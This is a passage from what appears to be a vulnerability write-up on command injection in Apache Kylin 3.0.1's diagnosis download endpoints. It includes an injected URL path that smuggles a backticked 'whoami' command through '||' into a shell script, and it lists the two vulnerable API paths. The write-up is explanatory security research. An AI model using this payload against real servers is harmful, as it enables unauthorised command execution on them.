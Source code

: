 ```java {29-31}
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

This way we can cause command injection by controlling the `{project}` request

```sh
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

After splicing, it appears

```sh
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

Here, the error statement can be used to echo the command to verify that the vulnerability exists.

```java
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-21.png)

During the fix, symbols such as `||`, `&&` were filtered, causing the command to be injected

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-22.png)

Two exploit points of the CCP

```sh
/kylin/api/diag/project/{project}/download  
/kylin/api/diag/job/{jobId}/download
```

Looking at the function, it is found that the utilization method is the same. Using `job` directly will fail because `{project}` has a `learn_kylin` by default, while `job` does not

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-23.png)
